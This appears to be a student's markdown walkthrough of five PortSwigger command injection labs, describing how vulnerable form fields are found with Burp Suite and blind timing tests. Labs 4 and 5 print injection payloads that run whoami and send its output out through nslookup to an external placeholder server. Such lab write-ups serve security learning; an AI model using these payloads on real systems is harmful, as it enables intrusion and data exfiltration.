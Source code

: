# Portswigger oc command injection labs

## Lab1:
On clicking on any of the products and clicking on stock, we get a post request o burp. In that we have 2 fields product id and storeid. We do not know 
which is vulnerable.
We start by commenting out the storid using a hash and adding a whoami commad before it, url encoding it and sending it using repeater. This gives the 
result of whoami which is peter-XOgFef
![image](https://github.com/poorvi1910/Web/assets/146640913/31187974-cef5-4e1c-812a-c802a9415a98)

## Lab2:
We have not been given source here. Hence we need to go with the blind injection approach using sleep. When we go to feedback link and submit a feedback 
and analyze the request,we need to find out which field is vulnerable. The email field gives us a delay in response. Hece we know that this field is where 
the payload goes.

## Lab3:
We have not been given source here either. Hence we need to go with the blind injection approach using sleep. When we turn on filter for images, we get a 
list of all the images used.
When we send this to repeater we see that the name of the image can conveniently be changed to that of another file within the folder to access information.
From the previous challenege we saw that the email field was vulnerable. Sending the whoami command to a text file in the mentioned folder and sending a request
using intruder to tht file, we get the whoami output

## Lab4:
The same email field is being used to exploit the application by using `& nslookup <server> #` urlencoded as the payload
which triggers interactions with an extrenal domain and the lab is solved.

## Lab5:
The same email field is being used to exploit the application and then exfiltrate data by using "& nslookup `whoami`.<server> #" or `& nslookup $(whoami).<server> #` urlencoded as the payload
which triggers interactions with an extrenal domain and retrieves data too and the lab is solved.
